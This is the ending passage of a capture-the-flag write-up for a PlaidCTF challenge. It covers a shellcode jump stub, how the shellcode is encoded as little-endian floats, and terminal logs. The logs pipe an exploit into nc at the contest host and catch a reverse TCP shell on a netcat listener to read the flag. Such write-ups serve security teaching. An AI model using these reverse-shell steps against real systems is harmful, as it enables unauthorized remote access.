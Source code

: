 ```assembly
		mov		bl, 0xec				;
		jmp 	SKIP_TUPLES_2			;
		jmp    eax 						; jump to the shellcode
```

The last thing that we have to note is the endianess. If we want to store shellcode 11 22 33 44
the first 2 floats must be: 0x????4433 0x????2211 (little endian).

After all this, the reverse TCP shellcode is working and we can get the flag: 
	**PCTF{why_isnt_IEEE_754_IEEE_7.54e2}**

The code fixedpoint_expl.c was used to generate the shellcode:	

```
Terminal #1:
	root@xrysa:~/ctf/plaidctf# gcc fixedpoint_expl.c -o fxp && ./fxp > B
	root@xrysa:~/ctf/plaidctf# cat B | nc fixedpoint.pwning.xxx 7777
	^C

	(connection will open once you terminate netcat)
```

```
Terminal #2:
	root@xrysa:~# nc -nvvl -p9743
		listening on [any] 9743 ...
		connect to [128.211.189.21] from (UNKNOWN) [13.90.215.254] 45300
		ls -la
			total 24
			drwxr-xr-x 2 root root 4096 Apr 17 02:08 .
			drwxr-xr-x 4 root root 4096 Apr 17 01:40 ..
			-rwxr-xr-x 1 root root 7424 Apr 17 01:40 fixedpoint_02dc03c8a5ae299cf64c63ebab78fec7
			-rw-r--r-- 1 root root   36 Apr 17 01:41 flag.txt
			-rwxr-xr-x 1 root root  268 Apr 17 02:01 wrapper
		id
			uid=1001(problem) gid=1001(problem) groups=1001(problem)
		cat flag.txt
			PCTF{why_isnt_IEEE_754_IEEE_7.54e2}
		exit
		sent 28, rcvd 373
```
___
